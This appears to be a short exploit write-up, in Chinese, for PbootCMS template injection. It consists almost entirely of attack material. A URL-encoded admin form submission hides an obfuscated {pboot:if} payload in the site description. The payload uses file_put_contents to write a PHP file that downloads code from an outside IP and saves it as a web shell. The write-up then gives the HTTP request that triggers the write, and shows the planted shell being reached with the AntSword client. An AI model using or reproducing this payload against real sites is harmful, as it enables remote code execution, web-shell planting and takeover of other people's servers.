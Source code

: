 ```bash
formcheck=70920681c85ccc8f59e0d173c3f12ae4&title=cs&subtitle=%E6%B0%B8%E4%B9%85%E5%BC%80%E6%BA%90%E5%85%8D%E8%B4%B9%E7%9A%84PHP%E4%BC%81%E4%B8%9A%E7%BD%91%E7%AB%99%E5%BC%80%E5%8F%91%E5%BB%BA%E8%AE%BE%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&domain=www.cf1.com&logo=%2Fstatic%2Fupload%2Fimage%2F20241213%2F1734054943148688.png&upload=&keywords=cms%2C%E5%85%8D%E8%B4%B9cms%2C%E5%BC%80%E6%BA%90cms%2C%E4%BC%81%E4%B8%9Acms%2C%E5%BB%BA%E7%AB%99cms&description=%7Bpboot%3Aif%28implode%28%27%27%2C%5B%27f%27%2C%27i%27%2C%27l%27%2C%27e%27%2C%27_%27%2C%27p%27%2C%27u%27.%27t%27%2C%27_c%27%2C%27o%27%2C%27n%27%2C%27t%27%2C%27e%27%2C%27n%27%2C%27t%27%2C%27s%27%5D%29%28implode%28%27%27%2C%5B%27xxx1%27%2C%27.php%27%5D%29%2Cimplode%28%27%27%2C%5B%27%3C%3Fphp+file_%27%2C%27put_%27%2C%27contents%28%27%2C%27%22xxx2.php%22%2C%27%2C%27file%27%2C%27_get_%27%2C%27contents%28%22%27%2C%27http%3A%2F%2F10.223.47.114%2Fxxx.php%22%29%29%3F%3E%27%5D%29%29%29%7D%21%21%21%7B%2Fpboot%3Aif%7D&icp=%E6%B9%98ICP%E5%A4%8788888888%E5%8F%B7&theme=default&statistical=&copyright=Copyright+%C2%A9+2018-2020+PbootCMS+All+Rights+Reserved.
```



##### 访问

http://www.cf1.com/xxx1.php

触发生成xxx2.php



```bash
GET /xxx1.php HTTP/1.1
Host: www.cf1.com
Cookie: lg=cn; PbootSystem=4fcb1vrm48ik6mmpk6uj9av0ag
Sec-Ch-Ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: keep-alive


```



### 蚁剑

```bash
http://www.cf1.com/xxx2.php
xxx
```
